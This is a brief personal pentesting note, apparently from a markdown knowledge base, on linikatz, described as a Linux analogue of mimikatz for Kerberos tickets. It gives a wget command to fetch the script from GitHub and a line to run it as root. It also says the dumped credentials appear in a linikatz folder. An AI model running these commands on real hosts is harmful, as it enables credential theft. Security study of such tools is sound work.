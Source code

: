 like mimikatz from [[Windows Keberos Tickets]] but for linux 
need root permission

```
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh

/opt/linikatz.sh
```
credentials are in a folder whose name starts with linikatz